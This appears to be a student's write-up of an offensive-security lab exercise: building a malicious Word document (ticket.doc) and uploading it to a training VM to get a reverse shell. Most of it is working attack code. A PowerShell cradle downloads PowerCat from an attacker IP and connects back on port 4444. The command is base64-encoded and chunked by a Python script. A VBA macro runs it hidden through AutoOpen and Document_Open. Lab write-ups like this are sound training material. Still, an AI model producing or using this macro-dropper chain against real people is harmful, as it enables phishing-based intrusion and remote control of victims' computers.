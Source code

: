 

2. Once you have confirmed that the macro from the previous exercise works, upload the document containing the macro _MyMacro_ in the file upload form (port 8000) of the _TICKETS_ (VM #2) machine with the name **ticket.doc**
   A script on the machine, simulating a user, checks for this file and executes it.
   After receiving a reverse shell, enter the flag from the **flag.txt** file on the desktop for the _Administrator_ user.
   For the file upload functionality, add **tickets.com** with the corresponding IP address in **/etc/hosts**.
    \*Please note that it can take up to three minutes after uploading the document for the macro to get executed.

- Craft PowerShell cmd to download PowerCat & run a reverse shell
```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.167/powercat.ps1');powercat -c 192.168.45.167 -p 4444 -e powershell
```

- Encode cmd w/ **pwsh**
```powershell
$TEXT = "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.167/powercat.ps1');powercat -c 192.168.45.167 -p 4444 -e powershell"
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText                                                                                           
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADEANgA3AC8AcABvAHcAZQByAGMAYQB0AC4AcABzADEAJwApADsAcABvAHcAZQByAGMAYQB0ACAALQBjACAAMQA5ADIALgAxADYAOAAuADQANQAuADEANgA3ACAALQBwACAANAA0ADQANAAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGwA
```

- Use python script to split the payload
```python
str = "powershell.exe -nop -w hidden -e <base64EncodedText>"  
  
n = 50  
  
for i in range(0, len(str), n):  
print "Str = Str + " + '"' + str[i:i+n] + '"'
```

- Create Word doc (ticket.doc) on Win computer.
- View > Macros
- Create Macro
```vbscript
Sub AutoOpen()  
  
	MyMacro  
  
End Sub  
  
Sub Document_Open()  
  
	MyMacro  
  
End Sub  
  
Sub MyMacro()  
	Dim Str As String  
  
	Str = Str + "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAd"
	 Str = Str + "wAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAA"
	 Str = Str + "uAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhA"
	 Str = Str + "GQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADI"
	 Str = Str + "ALgAxADYAOAAuADQANQAuADEANgA3AC8AcABvAHcAZQByAGMAY"
	 Str = Str + "QB0AC4AcABzADEAJwApADsAcABvAHcAZQByAGMAYQB0ACAALQB"
	 Str = Str + "jACAAMQA5ADIALgAxADYAOAAuADQANQAuADEANgA3ACAALQBwA"
	 Str = Str + "CAANAA0ADQANAAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGw"
	 Str = Str + "A"  
  
	CreateObject("Wscript.Shell").Run Str
  
End Sub
```

- Edit **/etc/hosts** file
```powershell
# Open cmd w/ Run as Administrator
notepad c:\Windows\System32\Drivers\etc\hosts

# In notepad add:
192.168.228.198    tickets.com
```